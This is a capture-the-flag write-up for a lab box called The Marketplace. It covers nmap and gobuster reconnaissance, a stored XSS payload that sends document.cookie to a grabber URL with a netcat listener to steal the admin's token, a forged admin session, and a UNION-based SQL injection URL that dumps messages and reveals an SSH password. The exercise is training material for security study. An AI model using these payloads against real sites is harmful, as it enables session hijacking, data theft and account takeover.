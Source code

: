 Difficult: Medium
------------------------------------------
Note: The sysadmin of The Marketplace, Michael, has given you access to an internal server of his, so you can pentest the marketplace platform he and his team has been working on. 
He said it still has a few bugs he and his team need to iron out.
Can you take advantage of this and will you be able to gain root access on his server?
------------------------------------------

Reconnaissance:
+ Scan NMAP:
```bash
	nmap -sV -vv -A -p- <IP>
	PORT      STATE SERVICE REASON         VERSION
	22/tcp    open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol
	 2.0)
	| ssh-hostkey: 
	|   2048 c8:3c:c5:62:65:eb:7f:5d:92:24:e9:3b:11:b5:23:b9 (RSA)
	| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDLj5F//uf40JILlSfWp95GsOiuwSGSKLgbFmUQOACKAdzVcGOteVr3
	lFn7vBsp6xWM5iss8APYi9WqKpPQxQLr2jNBybW6qrNfpUMVH2lLcUHkiHkFBpEoTP9m/6P9bUDCe39aEhllZOCUgEtmLp
	dKl7OA3tVjhthrNHNPW+LVfkwlBgxGqnRWxlY6XtlsYEKfS1B+wODrcVwUxOHthDps/JMDUvkQUfgf/jpy99+twbOI1OZb
	CYGJFtV6dZoRqsp1Y4BpM3VjSrrvV0IzYThRdssrSUgOnYrVOZl8MrjMFAxOaFbTF2bYGAS/T68/JxVxktbpGN/1iOrq3L
	RhxbF1
	|   256 06:b7:99:94:0b:09:14:39:e1:7f:bf:c7:5f:99:d3:9f (ECDSA)
	| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHyTgq5FoUG3grC5KNPA
	uPWDfDbnaq1XPRc8j5/VkmZVpcGuZaAjJibb9RVHDlbiAfVxO2KYoOUHrpIRzKhjHEE=
	|   256 0a:75:be:a2:60:c6:2b:8a:df:4f:45:71:61:ab:60:b7 (ED25519)
	|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIA2ol/CJc6HIWgvu6KQ7lZ6WWgNsTk29bPKgkhCvG2Ar
	80/tcp    open  http    syn-ack ttl 62 nginx 1.19.2
	| http-methods: 
	|_  Supported Methods: POST OPTIONS
	|_http-title: The Marketplace
	|_http-server-header: nginx/1.19.2
	| http-robots.txt: 1 disallowed entry 
	|_/admin
	32768/tcp open  http    syn-ack ttl 62 Node.js (Express middleware)
	| http-methods: 
	|_  Supported Methods: HEAD OPTIONS
	|_http-title: The Marketplace

```

+ Scan Gobuster:
```bash
	gobuster dir -u http://<IP>/ -w /usr/share/wordlists/dirb/common.txt -xtxt -t64
	===============================================================
	/admin                (Status: 403) [Size: 392]
	/Admin                (Status: 403) [Size: 392]
	/ADMIN                (Status: 403) [Size: 392]
	/images               (Status: 301) [Size: 179] [--> /images/]
	/login                (Status: 200) [Size: 857]
	/Login                (Status: 200) [Size: 857]
	/messages             (Status: 302) [Size: 28] [--> /login]
	/new                  (Status: 302) [Size: 28] [--> /login]
	/robots.txt           (Status: 200) [Size: 31]
	/robots.txt           (Status: 200) [Size: 31]
	/signup               (Status: 200) [Size: 667]
	/stylesheets          (Status: 301) [Size: 189] [--> /stylesheets/]
	Progress: 9228 / 9230 (99.98%)
	===============================================================
	Finished
	===============================================================

```

+ First, we will sign up to create a new account.
+ Create new USER "username:user1 & password:1"
+ Log in /Login with the credential which is created.

![alt text](image.png)

+ After Login successful, we can look around the web page and we find some new page like /messages and /new.
+ Check each page /new we have the page 'Add new listing' with blank fields 'Title' and 'Description'.
+ In the situation, we can try some tag html like script, h1,...

![alt text](image-2.png)

![alt text](image-1.png)

--> Bingo! The pop up message appear. We found the security vulnerability XSS
(Cross-Site Scripting).

EXPLOIT XSS:

+ Back to the home page we see the page list which we created. Go inside the page /item, we have 2 features: 

![alt text](image-3.png)

+ Feature 1: Contact with the author, we will send message to current user and that is user1.
+ Feature 2: Report to admins and the message report will be sent to admin.

--> We think some ideas that we can inject XSS vuln to retrive some sensitive information about the Admin.

+ View page source:
![alt text](image-4.png)

--> We know that we can exploit XSS base cookie or sensitive access token with "document.cookie" and "document.location"

+ Open "Developer Tools" or use Burpsuite:

![alt text](image-5.png)

--> We recive the token with value encoded. Decode the value we know that is the information user1.

+ We can manipulate cookie token by XSS to grant admin and access /admin.
+ Back to home page and we will exploit code.
+ We use "Data grabber for XSS"
+ Link: "https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#data-grabber-for-xss"

+ Now we create the new list and create the payload which will send it to a controlled page:
```bash
<script>document.location='http://localhost/XSS/grabber.php?c='+document.cookie</script>
```

![alt text](image-6.png)

+ Use netcat to open the port listen:
```bash
nc -lvkp <port>
# -l: listen mode, for inbound connects
# -v: verbose mode
# -k: set keepalive option on socket
# -p: local port number
# In the situation, we have to use -k to keep the connection when we back to home page. 
```

+ Look at the netcat:

![alt text](image-7.png)

+ We got the recieve about the token cookie that is token user1.
+ Idea in here that is we can manipulate the feature "Report to admin" in the /item to take the token ADMIN.
+ When we report to admin, netcat will capture the request to admin and recive back the token ADMIN.

![alt text](image-8.png)

![alt text](image-9.png)

--> Check netcat again and now we have the token for new user:

![alt text](image-10.png)

+ Decode the token:
```bash
{
    "userId": 2,
    "username": "michael",
    "admin": true,
    "iat": 1728993550
}
```
--> User michael with admin permission.
+ We will insert new token replace the token user1 and access again in the page /admin.

![alt text](image-11.png)

items,messages,users
table users: id, isAdministrator,password,username
table messages: id,is_read,message_content,user_from,user_to

![alt text](image-12.png)

```bash
http://<IP>/admin?user=5%20UNION%20SELECT%20group_concat(id,%20%27:%27%20,%20is_read,%20%27:%27%20,%20message_content,%20%27:%27%20,%20user_from,%20%27:%27%20,%20user_to%20SEPARATOR%20%27%3Cbr%3E%27),2,3,4%20FROM%20messages

```
![alt text](image-13.png)

--> We have the credential SSH jake:@b_ENXkGYUCAv3zJ

